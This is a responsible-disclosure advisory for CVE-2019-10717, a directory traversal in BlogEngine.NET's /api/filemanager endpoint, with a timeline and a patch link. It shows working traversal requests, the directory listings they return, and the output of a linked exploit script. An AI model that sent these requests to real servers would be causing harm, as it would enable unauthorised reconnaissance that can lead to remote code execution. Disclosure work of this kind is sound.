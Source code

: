 A directory traversal, CVE-2019-10717, was identified on BlogEngine.NET applications versions 3.3.7 and earlier through the `/api/filemanager` endpoint.  This issue reveals the contents of directories in the web root. Authentication is required to exploit this issue.

## Vendor Patch

* <https://github.com/rxtur/BlogEngine.NET/releases>

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 19 Jun 2019

## Description

`File Manager` is used by the application to show the contents of `~/App_Data/files` and sub-directories in the UI.  Submitting requests directly to `/api/filemanager` with a modified `path` parameter reveals directory contents beyond `~/App_Data/files`.  

![](filemanager.png)

A request to `/api/filemanager?path=%2F..%2f..%2f` shows the contents of the web root:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2f"}
...
  {
    "IsChecked": false,
    "SortOrder": 25,
    "Created": "5/26/2018 1:53:02 PM",
    "Name": "Web.config",
    "FileSize": "19.41 kb",
    "FileType": 1,
    "FullPath": "/../../Web.config",
    "ImgPlaceholder": "fa fa-file-o"
  },
...
~~~

The content of additional directories will be revealed by tampering with the **path** parameter:

~~~{.json command="https://$HOST/api/filemanager?path=%2F..%2f..%2fContent"}
<r:snip></r:snip>
  {
    "IsChecked": false,
    "SortOrder": 15,
    "Created": "3/30/2019 9:09:23 PM",
    "Name": "toastr.scss",
    "FileSize": "6.92 kb",
    "FileType": 1,
    "FullPath": "/../../Content/toastr.scss",
    "ImgPlaceholder": "fa fa-file-o"
  }
~~~

This issue could be exploited to verify uploaded files needed for a RCE attack or to identify files to retrieve through an XXE.

## Exploit

<https://github.com/irbishop/CVEs/blob/master/2019-10717/exploit.py>

Generates a list of all files in the web root:

~~~{command="python CVE-2019-10717.py -t 192.168.10.9"}
?path=~/App_Data/files/../../bin
/../../bin/AjaxMin.dll
/../../bin/BlogEngine.Core.dll
/../../bin/BlogEngine.Core.pdb
/../../bin/BlogEngine.Core.xml
/../../bin/BlogEngine.NET.dll
/../../bin/BlogEngine.NET.dll.config
/../../bin/BlogEngine.NET.pdb
/../../bin/BlogML.dll
/../../bin/Dynamic.dll
/../../bin/ICSharpCode.SharpZipLib.dll
/../../bin/Microsoft.Web.Infrastructure.dll
/../../bin/Microsoft.Web.XmlTransform.dll
/../../bin/Newtonsoft.Json.dll
/../../bin/Newtonsoft.Json.xml
~~~
